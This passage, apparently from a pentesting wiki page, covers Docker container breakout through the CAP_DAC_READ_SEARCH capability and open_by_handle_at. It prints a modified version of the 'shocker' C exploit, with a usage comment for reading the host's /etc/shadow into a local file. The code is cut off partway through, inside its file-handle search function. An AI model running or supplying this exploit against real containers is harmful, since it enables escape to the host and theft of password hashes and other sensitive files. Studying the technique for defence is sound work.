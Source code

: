 You can learn how the following exploiting works in [https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3](https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3) but in resume  **CAP\_DAC\_READ\_SEARCH**  not only allows us to traverse the file system without permission checks, but also explicitly removes any checks to _**open\_by\_handle\_at\(2\)**_ and **could allow our process to sensitive files opened by other processes**.

The original exploit that abuse this permissions to read files from the host can be found here: [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c), the following is a **modified version that allows you to indicate the file you want to read as first argument and dump it in a file.**

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker.c -o shocker
// ./socker /etc/shadow shadow #Read /etc/shadow from host and save result in shadow file in current dir

struct my_file_handle {
  unsigned int handle_bytes;
  int handle_type;
  unsigned char f_handle[8];
};

void die(const char * msg) {
  perror(msg);
  exit(errno);
}

void dump_handle(const struct my_file_handle * h) {
  fprintf(stderr, "[*] #=%d, %d, char nh[] = {", h -> handle_bytes,
    h -> handle_type);
  for (int i = 0; i < h -> handle_bytes; ++i) {
    fprintf(stderr, "0x%02x", h -> f_handle[i]);
    if ((i + 1) % 20 == 0)
      fprintf(stderr, "\n");
    if (i < h -> handle_bytes - 1)
      fprintf(stderr, ", ");
  }
  fprintf(stderr, "};\n");
}

int find_handle(int bfd,
  const char * path,
    const struct my_file_handle * ih, struct my_file_handle *
      oh) {
  int fd;
  uint32_t ino = 0;
  struct my_file_handle outh = {
    .handle_bytes = 8,
    .handle_type = 1
  };
  DIR * dir = NULL;
  struct dirent * de = NULL;
  path = strchr(path, '/');
  // recursion stops if path has been resolved
```